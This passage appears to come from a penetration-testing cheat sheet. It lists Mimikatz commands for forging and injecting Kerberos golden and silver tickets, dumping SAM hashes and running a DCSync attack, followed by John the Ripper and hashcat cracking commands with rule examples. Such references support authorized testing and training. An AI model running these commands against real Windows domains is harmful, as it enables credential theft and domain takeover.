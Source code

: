 ```shell
# Create golden or silver tickets and inject them into current user context
# `Protocol`: http, cifs, ...
# Note: No need to specify domain Name for `Existing_Domain_User`
# Golden
kerberos::golden /ptt /sid:[Domain_SID] /krbtgt:[krbtgt_Hash] /domain:[Domain_Name] /user:[Existing_Domain_User]
# Silver
kerberos::golden /ptt /sid:[Domain_SID] /rc4:[SPN_Hash] /service:[Protocol] /target:[SPN] /domain:[Domain_Name] /user:[Existing_Domain_User]
# Inject ticket of `.kirbi` format into current user session
kerberos::ptt [Name].kirbi

```
- <mark>lsadump</mark>
```bash
# extracts the NTLM hashes from the SAM
lsadump::sam
# DC-Sync attack against specific user
lsadump::dcsync  /user:[Username]
```
# Hash-Cracking
- <mark>Note</mark>:
	- `/` and `.` is sometimes part of hash (e.g. PHPass, etc). However, `\` is NOT since it is usually used as an escaping character.
- <mark>unshadow</mark>
```bash
unshadow [etc/passwd] [etc/shadow] > unshadowed.txt  
```
### john
- <mark>Basic Cracking</mark>
```bash
john [HASH_FILE] --wordlist=[wordlist]  --format=[format]  
```
- <mark>Rule-Based</mark>
```bash
# Example Rule and append following to `/etc/john/john.conf`
# where `$` appends the character followed, `c` capitalize the first character and convert the rest to lowercase.
[List.Rules:sshRules]
$1 c $!

john [HASH_FILE] --wordlist=[wordlist] --rules=[Rule_Name] 
```
### hashcat
- <mark>Basic Cracking</mark>
```bash
hashcat -m [Hash_Type_ID] [Hash_File] [Wordlist] --force
```
- <mark>Rule-Based</mark>
```bash
# Example Rule
# where `$` appends the character followed, `c` capitalize the first character and convert the rest to lowercase.
$1 c $!

hashcat -m [Hash_Type_ID] [Hash_File] [Wordlist] -r /usr/share/hashcat/rules/[Rule_File] --force
```
# Vulnerability Scanning
### wpscan
- `API Token`: 